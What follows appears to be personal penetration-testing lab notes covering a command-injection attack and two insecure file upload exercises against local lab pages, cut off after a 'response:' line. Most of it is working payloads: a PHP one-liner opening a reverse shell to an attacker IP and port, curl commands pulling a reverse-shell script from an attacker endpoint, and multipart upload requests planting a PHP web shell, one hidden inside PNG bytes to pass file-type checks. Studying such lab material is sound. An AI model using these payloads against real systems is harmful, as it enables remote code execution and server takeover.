 Attack:
- `100)^2))}';php -r '$s=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'; #`
alternatively:
- build a php reverse shell payload (copy from `/usr/share/laudanum/php/php-reverse-shell.php` and update with ip and port of attacker)
- `100)^2) + ((-200)^2)); system("curl http://<attacker_endpoint>/rev.php -o .") }' #` : upload rev_shell code to victim
- navigate to `http://localhost/rev.php`: set up listener in attacker's machine and run the shell code

# Insecure File Upload
#insecure_file_upload #file_upload
References:
- [Port](https://portswigger.net/web-security/file-upload)
- [appsecexplained](https://appsecexplained.gitbook.io/appsecexplained/)
- [appsecexplain - insecure file upload](https://appsecexplained.gitbook.io/appsecexplained/common-vulns/insecure-file-upload)
## insecure_fileupload 0x01
- Use BurpSuite to intercept the http call and find out if an executable file can be uploaded.
- update the http body to the following, so a file named `cmd.php` gets uploaded to the server. When we navigate to the uploaded file e.g. `/labs/uploads/cmd.php?cmd=shell_code` the shell_code command will be passed by `$_GET` to system and gets executed.
```
------WebKitFormBoundaryEGOVbAnBQ0OJefSS
Content-Disposition: form-data; name="uploaded_file"; filename="cmd.php"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryEGOVbAnBQ0OJefSS--
```
- use *ffuf* #ffuf to find where the file is getting uploaded to: `/labs/uploads`
- build rev.php from `/usr/share/laudanum/php/php-reverse-shell.php`
- upload rev.php by navigating to `http://localhost/labs/uploads/cmd.php?cmd=curl%20http://<attacker_endpoint>:<port>/rev.php%20-o%20.`


## insecure_fileupload 0x02
in this case, file type is getting checked at server side as well as client side. So uploading cmd.php in its original form is not possible.
Still need to use BurpSuite to bypass client-side file check, but can embed the php script between the magic bytes at the top of the file and some at the bottom of the file. 
```
------WebKitFormBoundaryBfx3xX3sVEQh4rAW
Content-Disposition: form-data; name="uploaded_file"; filename="cmd2.php"
Content-Type: image/png

PNG

   
IHDR  h  h   zåaÕ   gAMA  ±üa    cHRM  z&    ú   è  u0  ê`  :  pºQ<   bKGD ÿ ÿ ÿ ½§   tIMEç*%d¾Ð  DIDATxÚí½xdgyö4Ò¦Ï~ÞzÎÌH[Ý{ÃfjlÀ¦ÛôÐ1%!¦Å!@h	
<?php system($_GET['cmd']); ?>
Ï«Ô*¡Ñül  XB¸¢%7u
áé                                                                                                                                                                                                                                           Xü?@»5qøgP   %tEXtdate:create 2023-08-15T06:42:37+00:00[m   %tEXtdate:modify 2023-08-15T06:42:37+00:00ï=Ñ    IEND®B`
------WebKitFormBoundaryBfx3xX3sVEQh4rAW--

```
- navigate to `http://localhost/labs/uploads/cmd2.php?cmd=whoami`
- response: